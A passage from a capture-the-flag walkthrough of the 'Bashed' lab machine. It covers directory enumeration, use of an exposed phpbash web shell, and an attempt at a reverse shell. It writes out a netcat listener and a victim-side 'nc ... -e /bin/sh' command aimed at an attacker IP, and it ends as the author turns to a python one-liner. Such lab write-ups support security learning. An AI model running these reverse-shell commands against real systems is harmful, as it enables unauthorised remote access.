 There were a lot directories that `gobuster` enumerated. The directories `/images`, `/uploads`, `/php`, `/css` led me nowhere. There was one more directory that caught my attention, `/dev`, so I looked into it and Voila!!! We found a `phpbash.php` scrip and clicking on it gave us a web shell.

# Gaining a foothold

Well, what exactly does this shell do and in what context does it run?

This web shell is similar to the shell we get on a machine, it runs the same commands and outputs the same results, so it can be pretty useful for gaining initial access to the machine.

```

www-data@bashed
:/var/www/html/dev# whoami

www-data
www-data@bashed
:/var/www/html/dev# ls

phpbash.min.php
phpbash.php
www-data@bashed
:/var/www/html/dev# ls -lah

total 28K
drw-r-xr-x 2 root root 4.0K Jun 2 2022 .
drw-r-xr-x 10 root root 4.0K Jun 2 2022 ..
-rw-r-xr-x 1 root root 4.6K Dec 4 2017 phpbash.min.php
-rw-r-xr-x 1 root root 8.1K Nov 30 2017 phpbash.php
www-data@bashed
:/var/www/html/dev# pwd

/var/www/html/dev
```

We’re running in the context of an Apache default user www-data. For this machine, we already have a low privileged shell that allows us to run linux commands on the web server, so we don’t necessarily need to get our own reverse shell. However, I decided to try and get a reverse shell on my own system as this is a good practise.

I used `netcat` one liner to gain a reverse shell but for some reasons it kept terminating to so decide to use a different way to gain a reverse shell

```
Attacker's Machine: nc -lvnp 444
Victim's Machine: nc -nv <Attacker's-IP> <Attacker's Port> -e /bin/sh
```

I checked if `python` existed on the target machine using `which python` command and luckily it did.

Then I just headed to [PentestMonkey's Website](http://pentestmonkey.net/) to copy a python one liner to get a reverse shell
